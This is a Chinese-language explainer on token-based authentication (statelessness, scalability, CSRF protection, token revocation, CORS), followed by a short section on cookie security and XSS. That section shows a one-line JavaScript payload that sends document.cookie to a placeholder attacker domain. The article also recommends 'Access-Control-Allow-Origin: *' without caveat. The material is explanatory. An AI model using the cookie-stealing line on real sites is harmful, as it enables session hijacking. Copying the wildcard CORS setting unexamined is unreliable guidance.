 基于 Token 的身份验证是无状态的，我们不将用户信息存在服务器或 Session 中。这种概念解决了在服务端存储信息时的许多问题。

> NoSession 意味着你的程序可以根据需要去增减机器，而不用去担心用户是否登录。

基于 Token 的身份验证的过程如下:

1. 用户通过用户名和密码发送请求。
2. 程序验证
3. 程序返回一个签名的 token 给客户端。
4. 客户端储存 token,并且每次用于每次发送请求。
5. 服务端验证 token 并返回数据。

每一次请求都需要 token。token 应该在 HTTP 的头部发送从而保证了 Http 请求无状态。我们同样通过设置服务器属性 Access-Control-Allow-Origin:* ，让服务器能接受到来自所有域的请求。

#### Token 的优势

**无状态、可扩展：**

在客户端存储的 Tokens 是无状态的，并且能够被扩展。基于这种无状态和不存储 Session 信息，负载负载均衡器能够将用户信息从一个服务传到其他服务器上。

如果我们将已验证的用户的信息保存在 Session 中，则每次请求都需要用户向已验证的服务器发送验证信息(称为 Session 亲和性)。用户量大时，可能会造成一些拥堵。

** 安全性：**

请求中发送 token 而不再是发送 cookie 能够防止 CSRF(跨站请求伪造)。即使在客户端使用 cookie 存储 token，cookie 也仅仅是一个存储机制而不是用于认证。不将信息存储在 Session 中，让我们少了对 session 操作。

token 是有时效的，一段时间之后用户需要重新验证。我们也不一定需要等到 token 自动失效，token 有撤回的操作，通过 token revocataion 可以使一个特定的 token 或是一组有相同认证的 token 无效。

**可扩展性：**

Tokens 能够创建与其它程序共享权限的程序。例如，能将一个随便的社交帐号和自己的大号(Fackbook 或是 Twitter)联系起来。当通过服务登录 Twitter(我们将这个过程 Buffer)时，我们可以将这些 Buffer 附到 Twitter 的数据流上(we are allowing Buffer to post to our Twitter stream)。

使用 token 时，可以提供可选的权限给第三方应用程序。当用户想让另一个应用程序访问它们的数据，我们可以通过建立自己的 API，得出特殊权限的 token。

**多平台跨域：**

CORS(跨域资源共享)，对应用程序和服务进行扩展的时候，需要介入各种各种的设备和应用程序。

只要用户有一个通过了验证的 token，数据和资源就能够在任何域上被请求到。

```
Access-Control-Allow-Origin: *
```

## [安全性](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#安全)

这里主要是针对cookie的前端安全性来考虑的，Web storage主要是在相对应的场景来使用对应的storage对象就可以。

### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)攻击。

```JavaScript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
